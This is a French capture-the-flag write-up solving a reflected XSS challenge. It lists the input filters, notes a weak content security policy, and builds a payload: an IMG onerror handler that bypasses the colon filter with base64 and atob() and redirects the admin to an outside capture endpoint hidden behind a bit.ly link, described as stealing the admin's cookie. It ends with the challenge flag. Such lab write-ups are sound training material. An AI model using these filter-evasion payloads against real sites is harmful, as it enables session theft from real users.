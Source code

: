 # Solve - (C)e (S)ont (P)as vos affaires

## Enoncé 
Retrouvez le user-agent de l'administrateur

### Filtres : 
- `:` non autorisés
- `script`, `ScRiPt`, `SCRIPT` et autres variations de casses non autorisées
- `img` non autorisé
- Taille < 75 caractères

### Vulnérabilité : 
Content-Security-Policy faible : `script-src : unsafe-inline`
Les scripts insérés dans la page sont autorisés. 

## PoC : 
```html
<IMG src="x" onerror="alert(1)">
```

## Exploitation

Il faut d'abord créer un endpoint pour voler le cookie de l'admin :  https://01hfkp8te9vxp72gpse588j6wh00-cd2e5202bf8801eb0085.requestinspector.com

Il est bien trop long alors on le raccourci avec bit.ly ce qui nous donne : 
https://bit.ly/3ut573w

Pour bypass le filtre `:`, on peut encoder en base 64 puis decoder avec la commande `atob()`  
Donc https://bit.ly/3ut573w = `atob('aHR0cHM6Ly9iaXQubHkvM3V0NTczdw==')`

Il ne reste plus que la redirection, la plus courte est de spécifier seulement `location=`

*Payload final :* 72 caractères   
```html
<IMG src='' onerror="location=atob('aHR0cHM6Ly9iaXQubHkvM3V0NTczdw==')">
```

On peut maintenant transmettre le chemin vulnérable pour trigger l'adminsitrateur: 
```
/?username=%3CIMG+src%3D%27%27+onerror%3D%22location%3Datob%28%27aHR0cHM6Ly9iaXQubHkvM3V0NTczdw%3D%3D%27%29%22%3E
```
```
http://localhost:80/?username=%3CIMG+src%3D%27%27+onerror%3D%22location%3Datob%28%27aHR0cHM6Ly9iaXQubHkvM3V0NTczdw%3D%3D%27%29%22%3E
```


## Flag : `IUT{Th4t_W4s_N0t_Th4t_3asy_huh?_I_Mean_Y0u_C4n_B3_Proud}`